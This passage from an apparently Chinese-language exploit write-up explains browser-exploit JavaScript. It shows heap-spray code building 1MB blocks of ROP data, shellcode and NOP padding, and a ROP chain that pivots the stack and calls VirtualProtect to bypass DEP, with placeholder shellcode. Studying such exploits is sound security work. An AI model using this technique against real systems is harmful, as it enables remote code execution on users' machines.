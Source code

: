 > ```
>
> 我们能够清楚地看到0x20偏移处的值，为字符串的长度——0xfffda，是减去NULL终止符的字符串长度。

理解了这个后，我们再来看exp。

```javascript
    //初始化堆喷数据
    var padding = unescape("%u9090"); // unescape函数将类似%xx和%uxxxx的字符序列（x表示十六进制数字），用Unicode字符\u00xx和\uxxxx替换这样的字符序列进行解码。这里\x90是NOP指令
    while (padding.length < 1000)
        padding = padding + padding; 
    var padding = padding.substr(0, 1000 - shellcode.length);
    shellcode+= padding; // 在ROP+shellcode后padding NOP指令到1000字节，但是内存中实际分配2000字节
    while (shellcode.length < 100000) 
        shellcode = shellcode + shellcode;
    var onemeg = shellcode.substr(0, 64*1024/2); // 64K
    for (i=0; i<14; i++) {
        onemeg += shellcode.substr(0, 64*1024/2);
    }
    onemeg += shellcode.substr(0, (64*1024/2)-(38/2)); // 64K * 16，即1MB

 		//通过堆喷布局rop和shellcode
    var spray = new Array();
    for (i=0; i<100; i++) {
        spray[i] = onemeg.substr(0, onemeg.length);
    }
```

单次堆喷数据的组织形式其实与上述是类似的

- ROP（栈迁移） + shellcode + padding = 1000 byte
- 不断重复，直到64K
- 再以64K的块，扩展到1MB（64KB*16）
- 喷100次，共100MB

稍微看一下ROP链和shellcode的代码：

```javascript
    var shellcode = unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
    shellcode+= unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
    shellcode+= unescape("%u4141%u4141"); // PADDING

    //ROP链中的Gadget地址和参数布局，以实现栈转移和DEP绕过
    shellcode+= unescape("%u"+rop1+"%u"+rop2); // RETN
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP # RETN
    shellcode+= unescape("%u"+rop5+"%u"+rop6); // XCHG EAX,ESP # RETN
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP
    shellcode+= unescape("%u"+rop3+"%u"+rop4); // POP EBP
    shellcode+= unescape("%u"+rop7+"%u"+rop8); // POP EBP
    shellcode+= unescape("%u1024%u0000"); // Size 0x00001024
    shellcode+= unescape("%u"+rop9+"%u"+rop10); // POP EDX
    shellcode+= unescape("%u0040%u0000"); // 0x00000040
    shellcode+= unescape("%u"+rop11+"%u"+rop12); // POP ECX
    shellcode+= unescape("%u"+writable1+"%u"+writable2); // Writable Location
    shellcode+= unescape("%u"+rop13+"%u"+rop14); // POP EDI
    shellcode+= unescape("%u"+rop1+"%u"+rop2); // RET
    shellcode+= unescape("%u"+rop15+"%u"+rop16); // POP ESI
    shellcode+= unescape("%u"+jmpeax1+"%u"+jmpeax2); // JMP EAX
    shellcode+= unescape("%u"+rop17+"%u"+rop18); // POP EAX
    shellcode+= unescape("%u"+vp1+"%u"+vp2); // VirtualProtect()
    shellcode+= unescape("%u"+rop19+"%u"+rop20); // MOV EAX,DWORD PTR DS:[EAX]
    shellcode+= unescape("%u"+rop21+"%u"+rop22); // PUSHAD
    shellcode+= unescape("%u"+rop23+"%u"+rop24); // PUSH ESP
    shellcode+= unescape("%u9090%u9090"); // NOPs
    shellcode+= unescape("%u9090%u9090"); // NOPs
    shellcode+= unescape("%u9090%u9090"); // NOPs
```